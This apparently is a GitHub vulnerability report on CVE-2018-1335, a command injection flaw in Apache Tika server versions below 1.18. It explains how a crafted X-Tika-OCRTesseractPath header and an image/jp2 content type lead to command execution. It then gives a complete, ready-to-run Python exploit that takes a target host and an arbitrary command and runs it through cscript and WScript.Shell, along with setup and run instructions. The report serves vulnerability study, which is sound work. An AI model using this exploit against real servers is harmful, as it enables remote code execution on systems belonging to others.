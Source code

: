 <div align="center"><h1>CVE-2018-1335 REPORT</h1></div>

## About the vulnerability

This vulnerability leads to command injection vulnerability in Apache Tika server uses Cscript.exe to execute Jscript or VBS code and run arbitary commands.

**On versions:** Apache Tika server <1.18

**Pre-requisites:** No pre-requisites. Run the Tika server in its default configuration.

## Explanation
The entry point for this vulnerability is HTTP request header. To exploit this vulnerability, we need to pass the arguments in through HTTP request to `processHeaderConfig` function. This function sets the properties of the `TesseractORConfig` object.

The `doOCR` function in `TesseractORConfig.java` passes the config properties from the `TesseractORConfig` object, directly into an array of strings and it is further used to construct command for `ProcessBuilder`.

When we pass our command in the header as `X-Tika-OCRTesseractPath: <some command>`, the command is inserted into the cmd string but is unable to execute becuase of the prepending of some uncontrolable strings. To bypass this, we have to wrap our command in double quotes. This would result in windows ignoring whatever is appended to it after the qoutes. This would result in execution of our injected command.

`OCR` is used for pulling text and content out of the images and that's why we used image as our content-type so that we can reach the `doOCR` function.
The only way through which we can make Tika accept our command without embedding them into an image and then uploading that image is by setting the `Content-type` to `image/jp2`. This particular thing forces Tika to not check magic bytes of the image and allows the image to process through OCR. This resulted in the successful upload of our "image" file containing VBScript. We are able to successfully exploit the vulnerability.

## Exploit
```
#!/usr/bin/python

import requests

host = input("=> Target website/IP address = ")
port = input("=> Port number = ")
command = input("=> Command = ")

url = "http://"+host+':'+port+'/meta'

header = {"X-Tika-OCRTesseractPath": "\"cscript\"", "X-Tika-OCRLanguage": "//E:Jscript", "Content-type": "image/jp2"}

script = '''WScript.CreateObject("WScript.Shell").Run("cmd.exe /k %s")'''%command

requests.put(url, headers=header, data = script)
```
[Exploit code link](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall4/chall4/exploit.py)

Exploit was tested on Apache Tika 1.17 with Java version 1.7.0_80

### How to Run

#### Installing a python virtual environment
```bash
$ python3 -m venv env

$ source env/bin/activate
```
#### Adding the python dependencies

```bash
$ pip3 install requests
```

#### Running the exploit
```bash
$ python3 exploit_CVE_2018_1335.py
```

## Proof Of Concept (PoC)

[PoC video link](https://youtu.be/gDetAKkIXgs)